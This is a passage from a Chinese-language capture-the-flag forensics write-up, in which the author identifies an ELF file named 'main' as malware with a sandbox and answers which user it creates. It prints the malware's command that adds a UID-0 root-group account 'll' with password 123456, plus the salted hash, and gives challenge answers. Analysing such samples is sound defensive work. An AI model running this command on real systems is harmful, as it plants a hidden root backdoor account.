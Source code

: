我们使用`file`命令看看是什么东西，看到是一个 elf 文件。  
[![](assets/1702520939-09d510f73e3f3aebe3ec9d84bc8702ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160119-ccab3c70-998d-1.png)  
把 main 文件放到微步云沙箱里面再看看是不是病毒，发现是病毒。  
[![](assets/1702520939-f02288e05f3349a3a30334a6c21062e7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160138-d7b780ec-998d-1.png)  
那么答案就是**main**。

### server save\_4

> 题目内容：黑客的病毒运行后创建了什么用户？请回答用户名与密码：username:password

我们看到微步云沙箱对于病毒 main 的分析，看到执行了 useradd 的命令，将 ll 用户添加到 root 用户组中，并且使用的-p 值是加盐"salt"的 123456：`$1$salt$638tR8bROOvPnPklDQ9Vf`

```bash
useradd -p openssl passwd -1 -salt 'salt' 123456 ll -o -u 0 -g root -G root
应该转变为
useradd -p `openssl passwd -1 -salt 'salt' 123456` ll -o -u 0 -g root -G root
```
